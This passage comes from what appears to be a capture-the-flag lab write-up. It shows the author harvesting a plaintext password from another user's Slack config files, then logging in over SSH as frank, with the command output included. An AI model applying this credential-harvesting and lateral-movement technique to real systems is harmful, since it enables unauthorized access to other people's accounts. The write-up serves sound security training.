 Given the chat is between Margaret and Frank, I guessed that I can also see the same chat from margaret's side.
I additionally read files in `/home/margaret/.config/Slack` directory.
And I found the same chat with plaintext password this time.

```perl
    {
        "client_msg_id": "386f950e-2c8f-4d02-93de-5ef92bf6172b",
        "type": "message",
        "text": "I also set you a new password on the Ubuntu box - TractorHeadtorchDeskmat, same username",
        "user": "U014025GL3W",
        "ts": "1589806690.005900",
        "team": "T013LTDB554",
        "user_team": "T013LTDB554",
        "source_team": "T013LTDB554",
        "user_profile": {
            "avatar_hash": "g368549a1713",
            "image_72": "https:\/\/secure.gravatar.com\/avatar\/368549a1713abb8d1a5ec871da25b0ce.jpg?s=72&d=https%3A%2F%2Fa.slack-edge.com%2Fdf10d%2Fimg%2Favatars%2Fava_0021-72.png",
            "first_name": "",
            "real_name": "Margaret",
            "display_name": "Margaret",
            "team": "T013LTDB554",
            "name": "thisissecretright",
            "is_restricted": false,
            "is_ultra_restricted": false
        },
```

Here I found a password for `frank` : `TractorHeadtorchDeskmat`
Let's login as `frank` through `ssh` with the found credential.

```bash
┌──(kali㉿kali)-[~/htb/NIX02]
└─$ ssh frank@172.16.1.10
frank@172.16.1.10's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

26 updates can be applied immediately.
3 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

-bash-5.0$ id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
-bash-5.0$ whoami
```